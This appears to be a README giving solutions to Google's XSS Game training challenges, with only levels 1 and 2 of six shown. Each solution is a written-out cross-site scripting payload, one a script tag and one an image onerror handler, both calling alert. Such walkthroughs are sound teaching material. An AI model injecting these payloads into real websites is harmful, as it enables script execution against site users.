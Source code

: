 # XSS Game Google
Solution to the six XSS issues proposed by Google

## [1/6]  Level 1: Hello, world of XSS
_Solution_: put `<script>alert('xss');</script>` into form field

## [2/6]  Level 2: Persistence is key
_Solution_: share status `<img src="#" onerror="javascript:alert(1)"/>`